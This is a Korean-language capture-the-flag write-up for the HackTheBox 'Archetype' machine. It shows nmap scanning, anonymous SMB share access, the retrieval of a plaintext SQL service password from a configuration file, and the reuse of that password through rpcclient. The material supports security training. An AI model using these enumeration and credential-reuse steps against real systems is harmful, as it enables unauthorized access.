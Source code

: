 ```yaml
---
title: HTB Archetype Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox]
image:
    path: /assets/image_post/20240216110334.png
draft: true
---
```


*※ HTB Write-up의 경우 풀이 과정 중 machine을 자주 변경하여 풀이 과정 중에 기재한 IP가 모두 다릅니다. 하지만 실제론 동일한 서버이므로 참고 바랍니다.*

---
![](../assets/image_post/20240216110356.png)
---

우선 nmap으로 먼저 스캔해보자. 아래와 같이 탐지 내역이 꽤 많다. `rpc`, `smb`, `mssql` 관련된 port가 활성화 되어있는 것을 알 수 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sC -sV 10.129.241.210
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-15 21:04 EST
Nmap scan report for 10.129.241.210
Host is up (0.27s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   10.129.241.210:1433:
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ms-sql-info:
|   10.129.241.210:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-02-16T02:01:50
|_Not valid after:  2054-02-16T02:01:50
|_ssl-date: 2024-02-16T02:05:04+00:00; +1s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-02-15T18:04:50-08:00
|_clock-skew: mean: 1h36m01s, deviation: 3h34m42s, median: 0s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-02-16T02:04:46
|_  start_date: N/A
```

smbclient를 통해 어떤 공유 항목이 있는지 확인해보자. 아래와 같이 backups가 존재한다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# smbclient -L 10.129.95.187 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

접속해보니 'prod.dtsConfig' 란 파일이 존재하고 있기에 다운로드하였다.
> .dtsConfig 파일은 직접적으로 SQL Server에 접속하기 위한 것이 아니라, SQL Server Integration Services (SSIS) 패키지의 실행에 필요한 구성 정보를 저장하는 파일이다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# smbclient -N //10.129.95.187/backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2515674 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

sql 계정으로 추청되는 id, pw 값 획득이 가능하다. 
``` xml
┌──(root㉿kali)-[/home/user]
└─# cat prod.dtsConfig
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

mssql-cli를 설치하여 실행해보려 햇으나, mssql-cli 자체가 실행 시 오류를 발생시켜 해당 도구로는 테스트하지 못했다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# mssql-cli -S 10.129.95.187 -U sql_svc -P M3g4c0rp123
FailFast:
Couldn't find a valid ICU package installed on the system. Set the configuration flag System.Globalization.Invariant to true if you want to run with no globalization support.

   at System.Environment.FailFast(System.String)
   at System.Globalization.GlobalizationMode.GetGlobalizationInvariantMode()
   at System.Globalization.GlobalizationMode..cctor()
   at System.Globalization.CultureData.CreateCultureWithInvariantData()
   at System.Globalization.CultureData.get_Invariant()
   at System.Globalization.CultureInfo..cctor()
```

그래서 Windows 환경에 [SSMS](https://learn.microsoft.com/ko-kr/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver16)를 설치하여 접근을 시도하였다. 접근은 되는 듯 하나 사용자 계정 정보 오류를 확인 할 수 있었다.
![](../assets/image_post/20240216154546.png)


그리하여 마지막으로 rpcclient로 해당 계정으로 접근해보았더니, 접근이 된다...! dfsConfig는 SQL 관련 패키지 속성 값인데 왜 rpc와 관련이 있는 것일까......
``` bash
┌──(root㉿kali)-[/home/user]
└─# rpcclient -U sql_svc 10.129.95.187
Password for [WORKGROUP\sql_svc]:
rpcclient $> srvinfo
        10.129.95.187  Wk Sv Sql NT SNT PtB LMB
        platform_id     :       500
        os version      :       10.0
        server type     :       0x59007
```

